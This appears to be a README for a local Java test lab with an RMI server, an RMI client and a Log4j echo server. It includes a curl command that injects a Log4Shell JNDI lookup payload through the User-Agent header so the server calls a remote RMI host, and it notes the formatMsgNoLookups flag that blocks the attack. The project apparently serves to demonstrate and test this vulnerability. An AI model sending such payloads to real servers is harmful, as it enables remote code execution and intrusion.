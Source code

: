 ## server list
* SimpleRmiServer
  * port : 1234
  * health check : http://localhost:1234/healthcheck
* SimpleRmiClient
  * port : 4321
  * health check : http://localhost:4321/healthcheck
  * application runner invoke rmi hello service method
* SimpleLog4jEchoServer
  * port : 8080
  * health check : http://localhost:8080/healthcheck

## log4shell test
``` shell
$ curl -v -X GET \
--header 'User-Agent: ${jndi:rmi://192.168.1.6:10999/HelloService}' \
http://localhost:8080/doService/wow
```
* log4j call `jndi:rmi://192.168.1.6:10999/HelloService`
* with `-Dlog4j2.formatMsgNoLookups=true` option prevent log4shell